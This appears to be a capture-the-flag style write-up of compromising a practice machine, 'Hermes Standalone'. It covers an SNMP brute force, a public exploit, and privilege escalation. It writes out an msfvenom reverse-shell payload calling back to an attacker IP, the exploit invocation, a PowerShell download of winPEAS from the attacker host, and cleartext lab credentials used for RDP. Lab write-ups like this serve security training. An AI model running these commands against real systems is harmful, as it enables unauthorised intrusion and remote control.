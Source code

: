 # Hermes Standalone

I start off by scanning open ports:

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

On port 161 we discover a SNMP port open and we manage to bruteforce the password:

<figure><img src="../../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>

So after enumerating for a bit i found this program running with snmp:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I look up exploits and find what i'm looking for:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking what the payload does i generate a shell.exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

and run the exploit after hostinf a python server:

```
python 50972.py 192.168.243.145 192.168.45.207:80 shell.exe
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer powershell:

```
powershell
Invoke-WebRequest "http://192.168.45.207/winPEASany.exe" -OutFile "C:\Users\offsec\Desktop\winpeas.exe"
```

After running a linpeas i found some cleartext credentials:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption><p>zachary:Th3R@tC@tch3r</p></figcaption></figure>

I'm able to connect via RDP to the machine and while enumerating:

```
xfreerdp /v:192.168.243.145 /u:zachary /p:Th3R@tC@tch3r
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i'm able to launch shell as administrator:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
